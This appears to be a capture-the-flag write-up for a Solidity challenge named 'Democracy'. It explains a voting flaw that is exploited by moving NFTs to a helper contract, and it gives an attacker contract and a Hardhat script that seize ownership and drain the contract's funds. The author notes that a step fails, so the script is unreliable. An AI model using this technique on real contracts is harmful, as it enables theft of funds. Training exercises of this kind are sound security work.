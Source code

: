 # Democracy

## Goals

=> Drain the victimContracts balance to 0

### Hints

- None

### Solution

- There is an error in the business logic, we can just set a challenger which gets minted 2 NFTs, we can then approve one NFT to a malicious contract and send the NFT to that contract, we can then do 1 vote (since we only have 1 NFT in posession) 5 + 3 + 1 = 9 and the contract checks if that numer is >= TOTAL_CAP which equals 10, after that we can approve and send the second nft to our contract, which then can vote twice and we now have 6 votes which results in 11 votes toatl >= 10 => this then triggers the `_callElection()` function and we become the owner, we can now use the `withdrawToAddress()` since we are now the owner and have succesfully drained the contract

### Attacker Contract

```solidity
contract DemocracyAttacker is IERC721Receiver {
    Democracy target;
    address public player;

    constructor(address _target, address _player) {
        target = Democracy(_target);
        player = _player;
    }

    function attack() external {
        target.vote(player);
    }

    function onERC721Received(
        address,
        address,
        uint256,
        bytes calldata
    ) external override returns (bytes4) {
        return IERC721Receiver.onERC721Received.selector;
    }
}
```

### Test

```javascript
it('conduct your attack here', async function () {
	const AttackerFactory = await ethers.getContractFactory(ATTACKER_NAME);
	const attackerContract = await AttackerFactory.deploy(
		victimContract.address,
		attackerWallet.address
	);
	const nominateTx = await victimContract
		.connect(attackerWallet)
		.nominateChallenger(attackerWallet.address);
	await nominateTx.wait();
	// attacker wallet gets minted 2 NFT's (Id 0 & 1) which we will approve the attacker contract for
	const approveTxZero = await victimContract
		.connect(attackerWallet)
		.approve(attackerContract.address, 0);
	await approveTxZero.wait();
	const approveTxOne = await victimContract
		.connect(attackerWallet)
		.approve(attackerContract.address, 1);
	await approveTxOne.wait();
	// now we transfer one nft to our contract
	const transferTxZero = await victimContract
		.connect(attackerWallet)
		.transferFrom(attackerWallet.address, attackerContract.address, 0);
	await transferTxZero.wait();
	// now we vote on ourself so amount of votes < 10
	const voteTx = await victimContract.connect(attackerWallet).vote(attackerWallet.address);
	await voteTx.wait();
	// now we transfer the second nft to the contract
	const transferTxOne = await victimContract
		.connect(attackerWallet)
		.transferFrom(attackerWallet.address, attackerContract.address, 1);
	await transferTxOne.wait();
	// now we just need to call attack which is basically just calling vote with 2 votes since we own 2 nfts
	console.log(attackerWallet.address);
	console.log(await attackerContract);
	// This Tx fails idk why
	const contractVoteTx = await attackerContract.attack();
	console.log('contract Vote Tx', contractVoteTx);
	await contractVoteTx.wait();
	const withdrawTx = await victimContract.connect(attackerWallet).withdrawToAddress(attackerWallet);
	await withdrawTx.wait();
});
```
